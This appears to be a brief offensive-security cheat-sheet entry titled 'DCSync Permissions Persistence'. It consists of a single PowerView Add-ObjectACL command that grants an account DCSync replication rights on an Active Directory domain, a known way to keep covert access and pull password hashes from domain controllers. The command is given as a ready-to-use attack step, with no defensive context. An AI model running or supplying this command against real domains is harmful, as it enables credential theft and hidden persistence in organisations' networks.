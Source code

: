 # DCSync Permissions Persistence

### 1) Powerview

    Add-ObjectACL -TargetDistinguishedName "DC=Security,DC=local" -PrincipalSamAccountName 'Moe' -Rights DCSync
